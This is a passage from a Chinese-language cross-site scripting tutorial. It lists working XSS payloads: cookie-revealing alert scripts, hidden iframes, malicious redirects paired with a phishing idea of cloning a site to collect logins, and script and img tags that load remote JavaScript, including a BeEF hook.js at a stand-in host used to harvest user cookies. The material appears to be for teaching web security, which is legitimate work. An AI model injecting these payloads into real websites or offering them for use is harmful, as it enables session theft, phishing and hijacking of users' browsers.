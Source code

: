 发布后会出现xss弹窗，证明存在XSS注入

##### 2 基础利用方法

利用分为两类:在标签内,还是标签外.

- 如果在标签外,就想办法先闭合标签,再构造\<script\>标签;
- 如果在标签内,就想办法闭合本标签,构造JS事件或伪协议的方式来触发XSS;

**弹框警告**

```html
此脚本实现弹框提示，一般作为漏洞测试或者演示使用,类似SQL注入漏洞测试中的单引号', 一旦此脚本能执行，也就意味着后端服务器没有对特殊字符做过滤<>/' 这样就可以证明，这个页面位置存在了XSS漏洞。

<script>alert('xss')</script>
<script>alert(document.cookie)</script>
```

**页面嵌套**

```html
<iframe src=http://www.baidu.com width=300 height=300></iframe>
<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>
```

**页面重定向**

```html
<script>window.location="http://www.qfedu.com"</script>
<script>location.href="http://www.baidu.com"</script>
```

**弹框警告并重定向**

```html
<script>alert("请移步到我们的新站");location.href="http://www.qfedu.com"</script>
<script>alert('xss');location.href="http://10.1.64.35/mutillidae/robots.txt"</script>

这里结合了一些社工的思路
例如，通过网站内部私信的方式将其发给其他用户。如果其他用户点击并且相信了这个信息，则可能在另外的站点重新登录账户（克隆网站收集账户）
```

**访问恶意代码**

```html
<script src="http://www.qfedu.com/xss.js"></script>
<script src="http://BeEF_IP:3000/hook.js"></script> #结合BeEF收集用户的cookie
```

**巧用图片标签**

```html
<img src=x onerror=alert('xss')>
<img src="javascript:alert('xss');">
<img src="http://BeEF_IP:3000/hook.js"></img>

<svg οnlοad=alert(1)>
```
